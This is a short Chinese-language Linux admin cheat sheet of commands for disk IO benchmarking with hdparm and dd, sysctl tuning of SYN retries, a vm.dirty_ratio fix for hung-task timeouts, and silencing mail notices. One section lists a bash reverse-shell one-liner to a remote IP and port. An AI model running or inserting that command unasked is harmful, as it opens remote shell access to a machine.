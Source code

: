 # 测试io读

`hdparm -t --direct /dev/sda3`

# 测试io写

`sync;`

`/usr/bin/time -p bash -c "(dd if=/dev/zero of=test.dd  bs=1000K count=20000;sync)"`  #先刷新文件系统缓冲区,time命令用户测试命令执行时间,bash -c 表示将后面的字符串当脚本执行

`dd bs=1M count=20000 if=/dev/zero of=test.dd conv=fdatasync`  #dd命令测试IO顺序读写

<br/>

# sysctl命令相关

`sysctl -a` #显示所有系统参数

`sysctl -a | grep syn`  #查看SYN相关参数

`sysctl -w net.ipv4.tcp_syn_retries = 3`  #修改tcp_syn_retries次数

`sysctl -w net.ipv4.tcp_synack_retries = 3` #修改tcp_synack_retries参数

<br/>

# 反弹shell

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

<br/>

# 解决task nrpe: blocked for more than 120 seconds

> 原理：linux会设置40%的可用内存用来做系统cache，当flush数据时这40%内存中的数据由于和IO同步问题导致超时(120s)，所将40%减小到10%，避免超时

> 在文件/etc/sysctl.conf中加入 vm.dirty_ratio=10

<br/>

# 关闭`/var/spool/mail/root`提醒

`vim /etc/profile`

`unset MAILCHECK`

`source /etc/profile`

<br/>


# top命令
